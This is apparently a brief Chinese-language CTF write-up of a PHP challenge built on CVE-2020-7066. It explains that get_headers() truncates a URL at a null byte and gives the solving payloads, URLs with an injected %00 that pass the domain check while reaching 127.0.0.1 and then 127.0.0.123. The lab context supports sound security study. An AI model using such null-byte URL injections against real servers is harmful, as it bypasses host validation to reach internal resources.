 #PHP 
hint : cve-2020-7066
cve-2020-7066: 在低于7.2.29的PHP版本7.2.x，低于7.3.16的7.3.x和低于7.4.4的7.4.x中，将get_headers（）与用户提供的URL一起使用时，如果URL包含零（\ 0）字符，则URL将被静默地截断。这可能会导致某些软件对get_headers（）的目标做出错误的假设，并可能将某些信息发送到错误的服务器。

点击链接，返回包头有
```url
Hint: Flag in localhost
```
于是
```url
?url=http://127.0.0.1%00.ctfhub.com
```
返回有
```url
Tips: Host must be end with '123'
```
于是
```url
?url=http://127.0.0.123%00.ctfhub.com
```